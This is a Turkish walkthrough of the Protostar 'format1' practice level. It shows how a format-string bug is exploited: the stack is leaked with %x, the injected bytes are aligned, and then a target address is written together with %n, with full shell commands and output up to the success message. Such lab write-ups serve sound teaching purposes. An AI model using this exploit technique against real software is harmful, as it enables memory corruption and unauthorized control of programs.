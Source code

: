 ```bash
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + 'BBBB' + '%x '*200"`"
AAAABBBB804960c bffff498 8048469 b7fd8304 b7fd7ff4 bffff498 8048435 bffff681 b7ff1040 804845b b7fd7ff4 8048450 0 bffff518 b7eadc76 2 bffff544 bffff550 b7fe1848 bffff500 ffffffff b7ffeff4 804824d 1 bffff500 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff518 8a739bd5 a022adc5 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff544 8048450 8048440 b7ff1040 bffff53c b7fff8f8 2 bffff677 bffff681 0 bffff8e2 bffff8f7 bffff90e bffff926 bffff934 bffff948 bffff96b bffff982 bffff995 bffff99f bffffe8f bffffea8 bffffee6 bffffefa bfffff18 bfffff2f bfffff40 bfffff5b bfffff63 bfffff73 bfffff80 bfffffb5 bfffffc9 bfffffdd bfffffe9 0 20 b7fe2414 21 b7fe2000 10 78bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff65b 1f bffffff2 f bffff66b 0 0 87000000 6d68a1b7 50553acd baff49aa 695f2ca6 363836 0 2e000000 726f662f 3174616d 41414100 42424241 20782542 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 
```
Şimdi ben 4 tane A 4 tane de B ve ardından da 200 tane %x verdiğimde (çıktı okunabilir olsun diye araya space ekledim) A'ları bastıktan sonra %x e gelindiğinde gitti stackden veri çekmeye başladı. dikkat ederseniz içerisinde 41 ve 42 ler var. Bunlar biizm verdiğimiz A ve B lerin hex karşılıkları. Şimdi bu B leri yani 42 leri sona denk getirmeye çalışalım. (Ben deneye deneye yaptım ancak pwntools ile de yapabilirsiniz. pwntools <3)
```bash
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + 'BBBB' + '%x '*139"`"
AAAABBBB804960c bffff548 8048469 b7fd8304 b7fd7ff4 bffff548 8048435 bffff738 b7ff1040 804845b b7fd7ff4 8048450 0 bffff5c8 b7eadc76 2 bffff5f4 bffff600 b7fe1848 bffff5b0 ffffffff b7ffeff4 804824d 1 bffff5b0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff5c8 7db457cc 57e681dc 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff5f4 8048450 8048440 b7ff1040 bffff5ec b7fff8f8 2 bffff72e bffff738 0 bffff8e2 bffff8f7 bffff90e bffff926 bffff934 bffff948 bffff96b bffff982 bffff995 bffff99f bffffe8f bffffea8 bffffee6 bffffefa bfffff18 bfffff2f bfffff40 bfffff5b bfffff63 bfffff73 bfffff80 bfffffb5 bfffffc9 bfffffdd bfffffe9 0 20 b7fe2414 21 b7fe2000 10 78bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff70b 1f bffffff2 f bffff71b 0 0 90000000 7bdbc4ae 9759c12f f64b26e9 69511c53 363836 0 0 0 2f2e0000 6d726f66 317461 41414141 42424242
```
Görüldüğü üzere son bölüme 42 leri denk getirdik. Bunların yerine hedef adresimizi yazarsak  ve onun olduğu aşamada da %n eklersek amacımıza ulaşmış oluruz.
```bash
user@protostar:/opt/protostar/bin$ ./format1 "`python -c "print 'AAAA' + '\x38\x96\x04\x08' + '%x '*138 + '%n '"`"
AAAA8�804960c bffff548 8048469 b7fd8304 b7fd7ff4 bffff548 8048435 bffff738 b7ff1040 804845b b7fd7ff4 8048450 0 bffff5c8 b7eadc76 2 bffff5f4 bffff600 b7fe1848 bffff5b0 ffffffff b7ffeff4 804824d 1 bffff5b0 b7ff0626 b7fffab0 b7fe1b28 b7fd7ff4 0 0 bffff5c8 dc409ca9 f6124ab9 0 0 0 2 8048340 0 b7ff6210 b7eadb9b b7ffeff4 2 8048340 0 8048361 804841c 2 bffff5f4 8048450 8048440 b7ff1040 bffff5ec b7fff8f8 2 bffff72e bffff738 0 bffff8e2 bffff8f7 bffff90e bffff926 bffff934 bffff948 bffff96b bffff982 bffff995 bffff99f bffffe8f bffffea8 bffffee6 bffffefa bfffff18 bfffff2f bfffff40 bfffff5b bfffff63 bfffff73 bfffff80 bfffffb5 bfffffc9 bfffffdd bfffffe9 0 20 b7fe2414 21 b7fe2000 10 78bfbff 6 1000 11 64 3 8048034 4 20 5 7 7 b7fe3000 8 0 9 8048340 b 3e9 c 0 d 3e9 e 3e9 17 1 19 bffff70b 1f bffffff2 f bffff71b 0 0 d9000000 1e628f4e 39eb11d5 fe14f7e2 6983c355 363836 0 0 0 2f2e0000 6d726f66 317461 41414141  you have modified the target :)
```
Evet başarı mesajını aldık.
Bu soru için şuradaki çözüm çok daha akıcı ve güzel anlatılmış, izlemenizi tavsiye ederim. [Video için tıkla](https://www.youtube.com/watch?v=Y9HFs3J_9w4)
